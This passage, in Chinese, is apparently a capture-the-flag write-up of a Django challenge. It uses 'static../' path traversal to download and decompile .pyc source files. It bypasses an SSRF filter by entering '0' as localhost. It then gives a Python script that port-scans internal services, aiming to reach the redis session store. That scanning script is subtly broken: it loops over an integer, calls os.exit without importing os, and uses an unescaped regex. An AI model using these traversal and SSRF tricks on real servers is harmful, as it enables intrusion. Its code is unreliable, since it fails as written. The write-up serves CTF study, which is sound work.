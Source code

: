 可以看到这个请求来自于python的requests库。

于是我们尝试通过构造特殊的url来打进内网，常见的绕过比如直接`127.0.0.1`，或者是进行一些进制转换、302跳转等等，但是我们会发现，一筹莫展，这些都被拦截了。

但是真的一点办法都没有吗？如果仔细分析页面的源代码，我们会看到页面里有一个图片，那么这里是否可能存在一个目录穿越、任意文件读取漏洞呢？

尝试`http://localhost/static/`、`http://localhost/static../`、`http://localhost/static../manage.py`，返回403；`http://localhost/static../xxx`，返回404。

在网站响应的http头部可以看到Server头部信息CPython3.4.1。由于python3.x的特性，会在__pycache__目录下存放预编译模块，于是依次下载文件：`http://localhost/static../__pycache__/__init__.cpython-34.pyc`、`http://localhost/static../__pycache__/urls.cpython-34.pyc`、`http://localhost/static../__pycache__/settings.cpython-34.pyc`

通过uncompyle6反编译pyc得到python文件，再依次下载需要的文件：`views.cpython-34.pyc`、`forms.cpython-34.pyc`、`html_parse.cpython-34.pyc`、`sess.cpython-34.pyc`、`safe.cpython-34.pyc`。

分析代码可知，只有我们的user名为`administrator`才可得到flag，而这个用户名是不可能生成的。所以我们剩下的思路就是改变session，而这里session保存在redis中。从settings.py里我们可以知道这里使用的是`django-redis-sessions`。

再分析代码逻辑，我们可以看到很多绕过方式都被拦截了。但是很多人可能不知道，在linux中0代表我们本机的ip地址，我们可以本地测试一下：

```
➜  ~ ping -c 4 0
PING 0 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.026 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.043 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.028 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.050 ms

--- 0 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3037ms
rtt min/avg/max/mdev = 0.026/0.036/0.050/0.012 ms
```

于是我们尝试输入0，可以看到我们已经成功进入了内网，虽然目前来看我们还是离flag很远。因为我们无法控制服务器http请求的内容，无法进行redis操作。

写一个脚本，看一下内网有什么服务，很简单的脚本：

```python
import requests
from lxml import etree
import re

s = requests.Session()
url = "localhost"
pattern = re.compile(r'[Errno 111] Connection')

def get_token(sess):
    r = sess.get(url)
    html = etree.HTML(r.text)
    t = html.xpath("//input[@name='csrfmiddlewaretoken']")
    try:
        token = t[0].get('value')
    except IndexError:
        print("[+] Error: can't get login token, exit...")
        os.exit()
    except Exception as e:
        print(e)
        os.exit()
    return token

for i in 10000:
    payload = {'csrfmiddlewaretoken': get_token(s), 'target': '0:%i' % i}
    r = s.post(url, data=payload)
    if re.search(pattern, r.text):
        print(i)
```
